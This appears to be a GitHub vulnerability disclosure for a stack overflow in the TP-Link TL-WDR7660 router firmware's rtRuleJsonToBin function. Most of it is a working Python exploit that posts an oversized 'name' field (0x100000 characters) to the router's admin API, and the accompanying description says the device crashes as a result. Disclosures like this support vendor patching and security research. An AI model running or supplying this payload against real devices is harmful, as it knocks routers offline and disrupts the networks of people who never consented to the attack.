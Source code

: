 **A stack overflow vulnerability exists in TL-WDR7660**
**version:  TL-WDR7660 ver1.0**

The rtRuleJsonToBin function handles the important parameter string name without checking it. It can lead to stack overflow vulnerabilities.

![image](image/1.png)

**Exploit a vulnerability in the rtRuleJsonToBin function by sending a carefully constructed HTTP request**
```
import requests
##You need to modify the cookie first
# Destination URL
url = "http://192.168.1.1/stok=U%2B%7D!TC%2BK6c)SHSupXt8E%5BcuX2k5*X2%5Dk/ds " #COOKIE需要对应捕获
# Request header
headers = {
    "Host": "192.168.1.1",
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:92.0) Gecko/20100101 Firefox/92.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/json; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.1.1",
    "Referer": "http://192.168.1.1/"
}
# Request body - Vulnerability exploits json
data = {"reboot_timer":{"name":"a"*0x100000,"table":"reboot_timer_rule","para":{"mon":"1","tue":"1","wed":"1","thu":"1","fri":"1","sat":"1","sun":"1","name":"test","reboot_time":"01%3A00"}},"method":"add"}
# Send POST request
response = requests.post(url, headers=headers, json=data)
# Output response content
print(response.text)
```
**The following figure shows the result**

***(1)Before the above code is executed, the automatic cleaning function runs normally, as shown in the following figure***
![image](image/2.png)

***(2)After the preceding code is executed, the request to add the automatic cleaning function rule fails***
![image](image/3.png)

***(3)After the automatic clearing function is added, the rule disappears and the system crashes***
![image](image/4.png)
